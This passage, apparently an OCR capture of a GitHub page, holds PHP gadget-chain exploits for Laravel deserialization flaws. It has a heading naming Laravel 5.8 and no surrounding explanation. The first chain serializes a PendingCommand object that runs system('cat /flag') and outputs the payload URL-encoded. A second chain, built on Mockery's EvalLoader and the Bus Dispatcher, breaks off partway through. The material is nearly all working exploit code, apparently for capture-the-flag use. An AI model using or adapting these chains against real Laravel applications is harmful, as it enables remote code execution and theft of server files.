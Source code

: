 ```
}

namespace Illuminate\Auth{
    class GenericUser{
        protected $attributes;
        public function __construct(array $attributes){
            $this->attributes = $attributes;
        }
    }
}


namespace Illuminate\Foundation{
    class Application{
        protected $hasBeenBootstrapped = false;
        protected $bindings;

        public function __construct($bind){
            $this->bindings=$bind;
        }
    }
}

namespace{
    echo urlencode(serialize(new Illuminate\Foundation\Testing\PendingCommand("system",array('cat /flag'),new Illuminate\Auth\GenericUser(array("expectedOutput"=>array("0"=>"1"),"expectedQuestions"=>array("0"=>"1"))),new Illuminate\Foundation\Application(array("Illuminate\Contracts\Console\Kernel"=>array("concrete"=>"Illuminate\Foundation\Application"))))));
}
?>
```

laravel5.8反序列化漏洞

```
<?php
namespace PhpParser\Node\Scalar\MagicConst{
    class Line {}
}
namespace Mockery\Generator{
    class MockDefinition
    {
        protected $config;
        protected $code;

        public function __construct($config, $code)
        {
            $this->config = $config;
            $this->code = $code;
        }
    }
}
namespace Mockery\Loader{
    class EvalLoader{}
}
namespace Illuminate\Bus{
    class Dispatcher
    {
        protected $queueResolver;
        public function __construct($queueResolver)
        {
            $this->queueResolver = $queueResolver;
        }
    }
```